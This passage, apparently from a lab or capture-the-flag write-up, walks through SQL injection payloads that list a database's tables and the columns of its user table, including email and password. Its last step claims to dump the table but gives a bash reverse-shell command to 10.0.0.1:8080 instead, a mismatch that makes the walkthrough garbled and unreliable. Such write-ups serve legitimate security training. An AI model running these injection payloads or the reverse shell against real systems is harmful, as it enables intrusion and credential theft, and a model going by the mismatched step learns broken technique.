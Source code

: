 Let’s gather the list of tables of the database using `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'main'`

![Untitled](images/Untitled%2030.png)

The tables are `blog`, `blog_comments` and `user`

Let’s see the columns of `user` table using: `group_concat(column_name) FROM information_schema.columns WHERE table_name = 'user'`

![Untitled](images/Untitled%2031.png)

The columns of the user table are called `id`, `email`, `password` and `name`

Let’s enumerate it all using: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

![Untitled](images/Untitled%2032.png)
